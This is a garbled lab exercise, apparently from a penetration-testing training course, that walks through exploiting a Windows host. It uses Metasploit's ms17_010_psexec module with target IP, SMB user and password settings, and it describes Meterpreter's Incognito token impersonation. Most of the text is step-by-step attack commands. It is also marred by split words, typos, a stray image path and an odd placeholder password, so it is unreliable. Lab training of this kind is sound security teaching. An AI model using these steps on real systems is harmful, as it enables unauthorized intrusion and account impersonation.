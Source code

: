 ''

Working with Various Penetration Testing Tools

Metasploit framework is one of the key tools used in penetration testing. Other than this, you can also work with Meterpreter, which has the capability to run different types of modules for attacking a system. For example, you can work with the Incognito module, which does not require you to steal the user’s password for compromising a system. You can instead work with tokens and impersonate a user. It simplifies the process of compromising a system.

In this exercise, you will learn to work with various penetration testing tools.

''

... loading .. turning off the windows firewall on PLABWIN810

> start a Meterpreter Session on a Windows System

> To be able to penetrate a network, you need to exploit a system first. After exploiting this system, you can perform various tasks, which can be pivoting or lateral movements. Depending on the net> work environment, you need to choose your attack. However, as the first task, a system must be exploited.

In this task, you will learn to connect to a Windows Host and Launch the Exploit. To do this, perform the following steps:

1. crack open metasploit how ever you want to.

loading ... the meteasploit framework has now started

2. you will now use the PsExec exploit. To do this, type the follo   wing command:

> use exploit/windows/smb/ms17_010_psexec

> press enter

3. Next, type the following command to set the remote target host:

> set RHOST 192.168.0.5

> Press Enter

4. you will now need to provide user credentials. To do this, type  the following command:

> set SMBUser admin

> Press Enter

> You need to now set the password for the user. Type the followin  g command:

> set SMBPass 5

> press enter

5.     
finally run the follwing command:

> run

> Press Enter

6. After the run command completes, notice that a session with the   victim’s system is now established

 keeping the terminal window open... 

